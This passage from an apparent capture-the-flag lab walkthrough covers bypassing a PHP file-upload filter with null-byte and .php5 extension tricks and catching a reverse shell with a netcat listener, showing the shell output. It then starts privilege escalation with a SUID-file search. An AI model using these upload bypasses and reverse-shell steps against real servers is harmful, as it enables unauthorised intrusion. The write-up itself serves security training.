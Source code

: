Once uploaded, we notice the response “PHP not permitted”. Let’s inspect the HTTP requests to get a better idea of what happening (Burp to the rescue). Upon inspection, looks like we need to simply bypass the filename filter...

Let’s rename the file to `shell.php%00` and we see it uploads and it does! We get a success message, looking at the response we can see the location where our `php` file is stored. Let’s navigate to it..

<img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1705614453165/b54b8051-b7cd-4967-80bd-26423a7461bd.png" width=500 height=250 alt="uploads.png"> <br> 

Clicking on our uploaded shell throws an error (uh oh...) let's dive into it.

Seems like the null character in the URL is causing some issues. Trying a few more popular `php` extension filter bypasses we see that we can upload `php5` extensions with ease and we have a reverse shell!

```bash
root@ip-10-10-45-183:~# nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.9.126 55210 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:33:41 up 33 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now, put your thinking cap on and think of common locations to find the `user.txt` and it's right there.

## Privilege Escalation

Let’s run the following to see any SUID files. I know I know we can use `linpeas` and other scripts but hey you do you!

```bash
find / -perm -u=s -type f 2>/dev/null
```

*Output:*

```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
```
